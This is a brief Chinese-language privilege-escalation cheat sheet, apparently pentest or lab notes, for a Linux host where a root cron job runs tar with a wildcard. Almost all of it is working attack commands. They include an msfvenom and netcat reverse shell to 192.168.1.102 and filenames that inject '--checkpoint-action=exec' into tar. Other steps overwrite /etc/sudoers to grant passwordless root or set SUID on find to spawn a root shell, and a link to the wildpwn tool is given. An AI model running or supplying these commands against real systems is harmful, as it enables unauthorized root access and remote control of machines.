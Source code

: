 	低权限登录
	查看cron
	>cat /etc/crontab
	存在一个定时压缩目录的任务
	生成反向shell
	>msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.102 lport=8888 R
	再监听
	>nc -lvp 8888
	靶机执行
	>echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
	>echo "" > "--checkpoint-action=exec=sh shell.sh"
	>echo "" > --checkpoint=1
	>tar cf archive.tar *
	即可返回shell
	或使用sudoer
	>echo 'echo "ignite ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > demo.sh
	>echo "" > "--checkpoint-action=exec=sh demo.sh"
	>echo "" > --checkpoint=1
	>tar cf archive.tar *
	或suid
	>echo "chmod u+s /usr/bin/find" > test.sh
	>echo "" > "--checkpoint-action=exec=sh test.sh"
	>echo "" > --checkpoint=1
	>tar cf archive.tar *
	>ls -al /usr/bin/find
	>find f1 -exec "whoami" \;
	>root
	>find f1 -exec "/bin/sh" \;
	>id
	>whoami

	工具
	https://github.com/localh0t/wildpwn